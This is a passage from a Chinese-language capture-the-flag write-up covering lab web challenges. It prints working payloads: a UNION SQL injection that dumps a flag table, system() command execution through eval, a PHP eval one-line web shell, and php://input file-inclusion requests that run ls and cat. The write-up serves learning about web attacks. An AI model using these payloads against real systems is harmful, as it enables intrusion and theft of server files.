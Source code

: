 想查看列名 但WHere TAble_SChema=DaTabase()怎么都通不过 干脆去掉![image-20241018135908412](D:\ctf wp\40.1.assets\image-20241018135908412.png)

最后0' UNion SElect 1,fllllllllllllllllllllllaaa444g,3 FroM seeeeeeeeeeeeeeeecrret;%23![image-20241018135953790](D:\ctf wp\40.1.assets\image-20241018135953790.png)



## 16.eval执行

![image-20241021154806600](D:\ctf wp\40.1.assets\image-20241021154806600.png)

根据代码提示 （isset判断一个变量是否已设置, 即变量已被声明，且其值为ture） 使用变量cmd访问

/?cmd=system("ls")； 查看更目录文件![image-20241021155517980](D:\ctf wp\40.1.assets\image-20241021155517980.png)

/?cmd=system("ls /") ；查看根目录上级![image-20241021155547815](D:\ctf wp\40.1.assets\image-20241021155547815.png)

/?cmd=system("cat /flag_2755") ![image-20241021155620830](D:\ctf wp\40.1.assets\image-20241021155620830.png)

  



## 17.文件包含![image-20241021164556699](D:\ctf wp\40.1.assets\image-20241021164556699.png)

![image-20241021162837871](D:\ctf wp\40.1.assets\image-20241021162837871.png)

strpos 函数查找flag 

点开shell发现request函数 <?php eval($_REQUEST['ctfhub']);?>

根据代码 用get请求打开file /?file=shell.txt 并post输入变量ctfhub![image-20241021164417147](D:\ctf wp\40.1.assets\image-20241021164417147.png)



## 18.php://input

(php://input  是个可以访问请求的原始数据的只读流。可以接收post请求作为输入流的输入，将请求作为PHP代码的输入传递给目标变量，以达到以post 的形式进行输入的目的。)

![image-20241021173107900](D:\ctf wp\40.1.assets\image-20241021173107900.png)

POST /?file=php://input HTTP/1.1

<?php system('ls /');?>![image-20241021173440469](D:\ctf wp\40.1.assets\image-20241021173440469.png)

<?php system('cat /flag_28933');?>![image-20241021173543440](D:\ctf wp\40.1.assets\image-20241021173543440.png)



## 19.读取源代码
